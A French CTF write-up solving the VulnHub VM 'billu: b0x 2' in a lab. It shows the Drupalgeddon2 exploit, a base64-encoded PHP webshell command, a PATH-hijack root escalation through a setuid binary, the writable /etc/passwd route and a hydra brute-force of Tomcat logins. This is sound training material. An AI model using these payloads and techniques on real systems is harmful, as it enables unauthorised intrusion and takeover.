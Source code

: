 ```yaml
---
title: "Solution du CTF billu: b0x 2 de VulnHub"
tags: [CTF, VulnHub]
---
```


[billu: b0x 2](https://vulnhub.com/entry/billu-b0x-2,238/) est une VM vulnérable créée par [@indishell1046](https://twitter.com/indishell1046) et publiée sur *VulnHub*. Le CTF indique qu'il y a deux façons d'obtenir un premier shell et deux façons d'escalader ses privilèges. On verra que ce n'est pas tout à fait le cas.

## La face A

Un scan de ports remonte un serveur web "classique" ainsi qu'un Tomcat :

```
22/tcp    open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.7 ((Ubuntu))
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35442/tcp   status
|   100024  1          44953/tcp6  status
|   100024  1          52229/udp   status
|_  100024  1          54061/udp6  status
8080/tcp  open  http    Apache Tomcat/Coyote JSP engine 1.1
35442/tcp open  status  1 (RPC #100024)
```

Le port 80 sert un Drupal en version 8. Il existe une faille d'exécution de commande nommée _Drupalgeddon 2_ pour cette version :

[Drupal &lt; 8.3.9 / &lt; 8.4.6 / &lt; 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC) - PHP webapps Exploit](https://www.exploit-db.com/exploits/44448)

L'exploit trouvé sur *exploit-db* est assez simple et il fonctionne :

```console
$ python3 drupal.py
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://192.168.56.197/

Check: http://192.168.56.197/hello.txt
```

On trouve effectivement le contenu qu'on attendait à l'URL indiquée, prouvant qu'on peut écrire ce que l'on souhaite sur le serveur.

J'ai changé l'exploit pour y placer la commande suivante :

```bash
echo PHByZT48P3BocCBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4K | base64 -d | tee shell.php
```

Qui va me placer un webshell à la racine du site.

Avec ce webshell je peux uploader puis lancer un reverse-ssh en mode bind sur le port 31337 et m'y connecter.

Je remarque alors un binaire setuid root dans `/opt` :

```console
www-data@billu-b0x:/var/www/html$ find / -type f -perm -u+s -ls 2> /dev/null 
130819    8 -rwsr-xr-x   1 root     root         7496 Jun  3  2018 /opt/s
```

Il semble appeler `setres(u|g)id` puis la commande `scp` via `system` :

```console
www-data@billu-b0x:/opt$ strings s
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
printf
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
starting copy of root user files....
scp -r /root/* b0x@127.0.0.1:/var/backup
--- snip ---
```

On va donc se placer dans le PATH pour que le programme appelle un script à nous plutôt que le vrai `scp` :

```console
www-data@billu-b0x:/tmp$ echo -e '!#/bin/bash\nbash -p' > scp 
www-data@billu-b0x:/tmp$ chmod +x scp
www-data@billu-b0x:/tmp$ PATH=/tmp:$PATH /opt/s
/tmp/scp: 1: /tmp/scp: !#/bin/bash: not found
root@billu-b0x:/tmp# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

## La face B

LinPEAS indique que `/etc/passwd` est world-writable :

```
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d

═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ /etc/passwd is writable
═╣ Credentials in fstab/mtab? ........... No
═╣ Can I read shadow files? ............. No
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No
```

Ajouté à ça, un hash est présent dans le fichier :

```
indishell:$6$AunCdsxZ$OBxuMf0a/GqstthT4LEW8RGZxepGL7C3jHMk/IFyhLCTJ/.0fo/9Aa.s134i80zAr1HtdyICiogwDAXzG0NWZ0:1000:1000:indishell,,,:/home/indishell:/bin/bash
```

Il ne semble pas cassable, mais qu'importe, on peut passer root et rajoutant une ligne au fichier.

En revanche, bien qu'on puisse trouver des identifiants valides pour le Tomcat il s'avère que tous amènent à une erreur HTTP 403. Le second scénario d'exploitation web est donc impossible.

```console
$ hydra -L fuzzdb/wordlists-user-passwd/tomcat/tomcat_mgr_default_users.txt -P \
    fuzzdb/wordlists-user-passwd/tomcat/tomcat_mgr_default_pass.txt \
    http-head://192.168.56.197:8080/manager/html
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-13 16:16:00
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:6/p:5), ~2 tries per task
[DATA] attacking http-head://192.168.56.197:8080/manager/html
[8080][http-head] host: 192.168.56.197   login: role1   password: tomcat
[8080][http-head] host: 192.168.56.197   login: tomcat   password: tomcat
[8080][http-head] host: 192.168.56.197   login: both   password: tomcat
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-13 16:16:01
```
